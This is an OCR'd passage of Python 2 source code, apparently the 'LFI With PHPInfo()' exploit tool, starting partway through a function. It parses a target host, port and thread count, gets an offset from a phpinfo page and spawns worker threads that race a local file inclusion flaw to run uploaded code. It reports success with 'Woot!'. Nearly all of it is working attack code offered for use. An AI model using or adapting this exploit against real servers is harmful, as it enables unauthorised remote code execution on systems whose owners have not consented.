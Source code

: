         print "found %s at %i" % (d[i:i+10],i)
        # padded up a bit
        return i+256

    def main():
        
        print "LFI With PHPInfo()"
        print "-=" * 30

        if len(sys.argv) < 2:
            print "Usage: %s host [port] [threads]" % sys.argv[0]
            sys.exit(1)

        try:
            host = socket.gethostbyname(sys.argv[1])
        except socket.error, e:
            print "Error with hostname %s: %s" % (sys.argv[1], e)
            sys.exit(1)

        port=80
        try:
            port = int(sys.argv[2])
        except IndexError:
            pass
        except ValueError, e:
            print "Error with port %d: %s" % (sys.argv[2], e)
            sys.exit(1)
        
        poolsz=10
        try:
            poolsz = int(sys.argv[3])
        except IndexError:
            pass
        except ValueError, e:
            print "Error with poolsz %d: %s" % (sys.argv[3], e)
            sys.exit(1)

        print "Getting initial offset...",  
        reqphp, tag, reqlfi = setup(host, port)
        offset = getOffset(host, port, reqphp)
        sys.stdout.flush()

        maxattempts = 1000
        e = threading.Event()
        l = threading.Lock()

        print "Spawning worker pool (%d)..." % poolsz
        sys.stdout.flush()

        tp = []
        for i in range(0,poolsz):
            tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

        for t in tp:
            t.start()
        try:
            while not e.wait(1):
                if e.is_set():
                    break
                with l:
                    sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                    sys.stdout.flush()
                    if counter >= maxattempts:
                        break
            print
            if e.is_set():
                print "Woot!  \m/"